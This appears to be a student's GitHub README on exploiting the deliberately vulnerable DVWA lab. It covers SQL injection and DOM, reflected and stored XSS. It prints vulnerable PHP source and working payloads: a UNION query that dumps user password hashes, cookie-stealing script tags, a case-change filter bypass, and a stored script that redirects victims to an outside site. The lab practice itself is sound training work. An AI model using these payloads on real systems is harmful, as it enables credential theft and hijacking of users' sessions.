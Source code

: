 # DVWA - SQL Injection & XSS (Cross Site Scripting)

# SQL Injection
<details>
<summary>Introduction of SQL Injection?</summary>

### What is SQL Injection?
SQL Injection is a type of web security vulnerability that allows an attacker to manipulate an application's database query by inserting malicious SQL code into input fields, leading to unauthorized access or data manipulation.

### Basic Principles of SQL Injection

SQL Injection typically occurs when an application directly embeds user input into SQL queries without sufficient validation or sanitization. When an application incorporates user input as part of an SQL statement, an attacker can craft specific inputs to alter the final SQL statement to achieve their goals, such as bypassing authentication, reading, or modifying database data.

### Example

Suppose there is a simple login form where a user inputs a username and password, and the system executes the following SQL query to verify the user's identity:

```sql
SELECT * FROM users WHERE username = 'user input username' AND password = 'user input password';
```

If the user inputs the following:

- Username: `admin`
- Password: `' OR '1'='1`

The generated SQL statement would become:

```sql
SELECT * FROM users WHERE username = 'admin' AND password = '' OR '1'='1';

```

Since `'1'='1'` is always true, this query will return information for all users in the database, allowing the attacker to bypass authentication and log in to the system.
</details>


---

<img width="943" alt="Screenshot 2024-05-14 at 3 42 56 in the afternoon" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/9e23f1c0-361e-44a1-861c-f1b0baa2c69d">


<details>
<summary>Low-level security</summary>
    
### DVWA SQL Injection - Low level

1. **View Source Code**:
    
    ```php
    <?php
    
    if( isset( $_REQUEST[ 'Submit' ] ) ) { 
        // Get input
        $id = $_REQUEST[ 'id' ];
    
        // Check database
        $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';"; 
        $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
    
        // Get results
        while( $row = mysqli_fetch_assoc( $result ) ) {
            // Get values
            $first = $row["first_name"];
            $last  = $row["last_name"];
    
            // Feedback for end user
            echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>"; 
        }
        mysqli_close($GLOBALS["___mysqli_ston"]);
    }
    ?>
    ```
    
2. **Source code Analysis**:
    - The server-side `low.php`  script doesn’t perform any check or filtering on user’s id input and directly displays the execution result of the SQL query to the client-side.
    - Try input `' OR '1'='1`  it returns all the result of user’s first name and surname. With that experiment It doesn’t return errors, So we have chance to get database information through SQL injection.
        
        <img width="941" alt="Screenshot 2024-05-14 at 3 55 35 in the afternoon" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/5e91e4cc-1c05-47c7-93e4-67fc4f64139b">

        
      
        
3. **Vulnerabilities Exploitation**:
    - **The vulnerable script:** `"SELECT first_name, last_name FROM users WHERE user_id = '$id';"`
    - **Get the usernames and passwords from database :**  `’ UNION SELECT user, password FROM users#`
        <img width="931" alt="Untitled" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/dec7790e-0f67-4c5c-9156-00aea2b19431">
        
    - **Crack the hash:** Even though passwords are hashed but still try to crack it with library attack.
        <img width="850" alt="Screenshot_2024-05-14_at_7 47 39_in_the_evening" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/58f34eb1-ae2b-48c5-bb52-4e0d4c824e8d">      

</details>


---

<details>
<summary>Medium-level security</summary>
    
### DVWA SQL Injection - Medium level

1. **View Source Code**:
    
    ```php
    <?php
    
    if( isset( $_POST[ 'Submit' ] ) ) {
    	// Get input
    	$id = $_POST[ 'id' ];
    
    	$id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);
    
    	$query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
    	$result = mysqli_query($GLOBALS["___mysqli_ston"], $query) or die( '<pre>' . mysqli_error($GLOBALS["___mysqli_ston"]) . '</pre>' );
    
    	// Get results
    	while( $row = mysqli_fetch_assoc( $result ) ) {
    		// Display values
    		$first = $row["first_name"];
    		$last  = $row["last_name"];
    
    		// Feedback for end user
    		$html .= "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    	}
    
    }
    
    // This is used later on in the index.php page
    // Setting it here so we can close the database connection in here like in the rest of the source scripts
    $query  = "SELECT COUNT(*) FROM users;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
    $number_of_rows = mysqli_fetch_row( $result )[0];
    
    mysqli_close($GLOBALS["___mysqli_ston"]);
    ?>
    ```
    
2. **Source code Analysis**:
    - `medium.php`  script try to avoid user input by giving dropdown selection instead.
    - It is still able to change the script in `inspect element`
        
        
        <img width="754" alt="Screenshot 2024-05-14 at 8 15 46 in the evening" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/07afd223-6374-4ea8-9953-cdb9a0448222">

3. **Vulnerabilities Exploitation**:
    - **Get the usernames and passwords from database :**  edit in inspector mode by inserting script as in the picture below:
        
        <img width="843" alt="Untitled (1)" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/ab7335b5-98ee-415f-bf4a-b718ff7d9b98">

        
    - **Submit:**
        
        <img width="748" alt="Untitled (2)" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/bf31b415-93fa-42aa-a2dc-42d4504a0d3c">

</details>        

---

<details>
<summary>High-level security</summary>
    
### DVWA SQL Injection - High level

1. **View Source Code**:
    
    ```php
    <?php
    
    if( isset( $_SESSION [ 'id' ] ) ) {
    	// Get input
    	$id = $_SESSION[ 'id' ];
    
    	// Check database
    	$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
    	$result = mysqli_query($GLOBALS["___mysqli_ston"], $query ) or die( '<pre>Something went wrong.</pre>' );
    
    	// Get results
    	while( $row = mysqli_fetch_assoc( $result ) ) {
    		// Get values
    		$first = $row["first_name"];
    		$last  = $row["last_name"];
    
    		// Feedback for end user
    		$html .= "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    	}
    
    	((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
    }
    
    ?>
    ```
    
2. **Source code Analysis**:
    - `High.php`  script want to avoid direct input so it call new popup window for input, from source code can be seen that it is very similar to low-level but it is different here with `LIMIT 1;` in the query.
    - However, still can do `’ UNION SELECT user, password FROM users#` use the hashtag to ignore the condition.
        
        <img width="751" alt="Screenshot 2024-05-15 at 12 21 10 at night" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/39d3376e-af17-44ad-9b03-58af3b3e9d7f">

        
3. **Vulnerabilities Exploitation**:
    - **Submit:**
        
        <img width="1440" alt="Untitled (3)" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/19cfcb24-7e6a-4fee-8c88-08c20b49dcd1">

</details>        

---

<details>
<summary>As proof here</summary>

- As can be seen, the background is my desktop wallpaper.
- In about, it displays my name.
- The top bar can see the date 14, May, 8:27PM and compare to the name of screenshot (the same date, similar time because i just did it at the moment.
- The navigation bar on the middle-right are from my screen.
- Look at another window behind setting and finder, that is kali VM is running and I was testng on it.
    
    <img width="1440" alt="Untitled 5" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/ada31e8e-e0a5-4457-a164-23e01563d675">

</details>

---


# DOM-XSS (Cross site scripting)

<img width="882" alt="Untitled (4)" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/205e04f0-1cd6-4bf9-aafc-83c673981a5a">

<details>
    
<summary>low-level security</summary>

### DVWA XSS - Low level 

1. **The URL**:
    
    ```php
    // original URL
    127.0.0.1/dvwa/vulunerabilities/xss-d/
    
    // after selecting language
    127.0.0.1/dvwa/vulunerabilities/xss-d/default=English
    ```
    
2. **Testing with inserting javascript into URL**:
    
    ```jsx
    <script> alert(”XSS_Test”) </script>
    ```
    
3. **Updated URL:**
    
    ```jsx
    127.0.0.1/dvwa/vulunerabilities/xss-d/default=English <script> alert(”XSS_Test”) </script>
    ```
    
4. **Vulnerabilities Found**:
    
    <img width="1184" alt="Screenshot 2024-05-17 at 12 47 02 in the afternoon" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/93b9ddac-f9f8-4dd4-81fd-7922afece9d6">

    
5. **Vulnerabilities Exploitation**:
    - **The vulnerable script:** `<script> alert(document.cookie) </script>`
      
        <img width="1294" alt="Screenshot 2024-05-17 at 12 49 37 in the afternoon" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/1f7e5ed5-160c-45ac-aa03-bf20c7d3cbc9">

          
</details>

---

<details>

<summary> medium-level security </summary>

### DVWA XSS - Medium level

1. **The URL**:
    
    ```php
    // original URL
    127.0.0.1/dvwa/vulunerabilities/xss-d/
    
    // after selecting language
    127.0.0.1/dvwa/vulunerabilities/xss-d/default=English
    ```
    
2. **Testing with inserting javascript into URL**:
    
    ```jsx
    <script> alert(”XSS_Test”) </script>
    
    // failed because it has filtering script.
    ```
    
3. **Try with:**
    
    ```jsx
    </select><img src/onerror=alert(”XSS_Test”)>
    ```
    
4. **Vulnerabilities Found**:
   
    <img width="1344" alt="Untitled (5)" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/3cf4b170-a7e0-466e-b613-a3631cefee7a">

    
 </details>
 
---


# Reflected based XSS

<img width="774" alt="Screenshot 2024-05-19 at 5 44 15 in the afternoon" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/cbb355ce-bc2a-4a1f-ab36-58bbb4899cf5">

<details>

<summary>low-level</summary>

### XSS - Low level

1. **The URL**:
    
    ```php
    // original URL
    127.0.0.1/dvwa/vulunerabilities/xss-r/
    
    // after input name
    127.0.0.1/dvwa/vulunerabilities/xss-r/?name=munin#
    ```
    
2. **Testing with inserting javascript into URL**:
    
    ```jsx
    <script> alert(”XSS_Test”) </script>
    
    <script> alert(document.cookie) </script>
    ```
    
3. **Vulnerabilities Found**:
    
    <img width="1244" alt="Untitled (6)" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/984f0103-54fd-4233-bfe4-0c991a2186db">

    <img width="1211" alt="Untitled 9" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/66ce2463-7715-43db-a916-acafe3759629">

    
</details>

---

<details>

<summary>medium-level</summary>

### XSS - Medium level

1. **Input javascript into URL**:
    
    Because from the source code in medium level, it is filtering <script> however it is string and check only small capital letter, Hence we can try capital letter to escape the filtering.
    
    ```jsx
    <SCRIPT> alert("Hello") </SCRIPT>
    
    <SCRIPT> alert(document.cookie) </SCRIPT>
    ```
    
2. **Vulnerabilities Found**:
   
    <img width="1230" alt="Screenshot_2024-05-17_at_2 57 07_in_the_afternoon" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/9ebf671e-f1ca-48d4-a090-2835f7e9da23">

    <img width="1268" alt="Screenshot_2024-05-17_at_2 57 57_in_the_afternoon" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/37976eab-6649-4a5d-b64c-2b5a4a37a84a">
    
</details>

---

# Stored based XSS

<details>

<summary>low-level</summary>

### DVWA XSS - Low level

1. **The URL**:
    
    ```php
    // original URL
    127.0.0.1/dvwa/vulunerabilities/xss-
    ```
    
2. **Testing with inserting javascript into URL**:
    
    ```jsx
    <script> alert(1) </script>
    ```
    
3. **Vulnerabilities Found**:
As can be seen, the page now stored the script which alert(1). Whenever reload the page it will keep popup message “1” as inserted script. This is critical risky since everyone who log into the webpage can be victim.
    
    <img width="1377" alt="Untitled (4)" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/8ffe5a4d-3dd5-4ada-8a77-57fe32cf349d">

    
4. **Vulnerabilities Exploitation**:
Now I can redirect everyone to my webpage to access more attacks.
    - I edit html source code `maxlength="50"` to `maxlength=”500”`
        
        <img width="614" alt="Screenshot 2024-05-18 at 5 15 35 in the afternoon" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/f53d7328-577a-4f61-bfee-e3a242a6fd0b">

        
    - **The Affected URL**: https://attack.com.
        
        <img width="1345" alt="Screenshot 2024-05-18 at 5 19 15 in the afternoon" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/986db103-ba44-45d9-9121-1ae5041f1019">

        
    - **Result:** Now victims are redirected to this new webpage. (attack.com is just a random webpage online).
        
        <img width="1334" alt="Screenshot 2024-05-18 at 5 21 13 in the afternoon" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/e22f5d9f-852d-4602-8f61-162bb6005cd9">
        
</details>

---

<details>

<summary>medium-level</summary>

### DVWA XSS - Medium level

1. **Edit `maxlength` and Testing with inserting javascript through input**:
    
    <img width="762" alt="Screenshot 2024-05-19 at 5 19 43 in the afternoon" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/675ad3b0-25b6-416d-b38d-a5be621e3a99">

    
    ```jsx
    /*Name:*/ <script> alert(1) </script>
    /*Message:*/<script> alert(1) </script>
    ```
    
    - It filtering out <script>
        
       <img width="550" alt="Screenshot 2024-05-19 at 5 20 42 in the afternoon" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/8f3719d3-934e-4205-b076-8d69e8a96750">

        
    - Testing with capital letter:
        
        ```jsx
        /*Name:*/ <SCRIPT> alert(1) </SCRIPT>
        /*Message:*/<SCRIPT> alert(1) </SCRIPT>
        ```
        
2. **Vulnerabilities Found**:
    
    <img width="1213" alt="Screenshot 2024-05-19 at 5 23 26 in the afternoon" src="https://github.com/MuninMunin/SDS---DVWA/assets/151008791/3f6ad574-09d4-4541-af11-009121148e3d">

    
3. **Vulnerabilities Exploitation**:
    - **The vulnerable script:** `<script> alert(document.cookie) </script>` to get cookie or `<SCRIPT> window.location.href=”http://xxx.com/XSS_TEST” </SCRIPT>` to redirect user to the webpage.

</details>

---




